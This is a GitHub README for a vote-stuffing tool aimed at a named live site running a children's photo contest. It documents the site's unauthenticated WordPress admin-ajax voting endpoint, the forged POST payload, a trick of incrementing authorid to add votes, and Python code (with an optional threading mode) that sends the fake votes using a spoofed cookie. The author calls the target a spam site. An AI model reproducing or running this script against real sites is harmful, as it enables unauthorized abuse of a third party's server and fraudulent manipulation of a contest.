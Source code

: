 # vote_increaser_on_a_site

this site is a spam site which get trafic by a some child photos compitition
so i hack its database api - because it have some loopholes 
1: **it provides a ajax code in html file**
```bash
var data = {
 'action': 'vote_form_data',
 'contestid': contestid,
 'authorid': authorid,
  'name': name
}
jQuery.ajax({
  url:"https://little1.in/wp-admin/admin-ajax.php",
	type: 'POST',
	data: data}
```
**next**
just to figure out the **contestid,authorid,name** values to send post request 

it turns out that **name = ''** blank here and

**contestid** is in the end of the url itself 

so just to get **authorid** 
which is provided in html tag

<img src="https://github.com/rishabhjainfinal/vote_increaser_on_a_site/blob/master/Screenshot%20(68).png" >

SO FOR EACH VOTE YOU HAVE TO ADD +1 IN YOUR **authorid**  ALTHOUGH IT ALSO ADD A VOTE WHEN REQUESTED FROM SAME **authorid**   ¯\\_(ツ)_/¯ 

***next***

and then i make a simple script to fetch current votes 
```bash
def votes(url):
	source = urllib.request.urlopen(url).read()
	soup = bs.BeautifulSoup(source,features="html.parser")
	for i in soup.select('div.blog-item'):
		votes=i.p.strong.text
	return votes

```

you can also use **threading** to get things faster and more excited jsut un-comment all the threading lines code and comment the the increaser call funtion you will see it when you see the file
i don't have the power and internet speed to do but i tested it wooks fine 

```bash
def increaser(n):
	database_url = "https://little1.in/wp-admin/admin-ajax.php"
	contestid=url.split('/')[-2].split('-')[-1]

	payload = f'action=vote_form_data&contestid={contestid}&authorid={n}&name='
	headers = {
	  'Content-Type': 'application/x-www-form-urlencoded',
	  'Cookie': 'sitename_newvisitor=1; voteStatus-4233=4233'
	}

	response = requests.request("POST", database_url, headers=headers, data = payload)
```

this funtion will send request to the databasse of site and take **contestid** as arg 

**thats all**
we spam the spamer


all the require modues are here install them by pip install {module name}
```bash
requests
bs4
urllib.request
threading
```
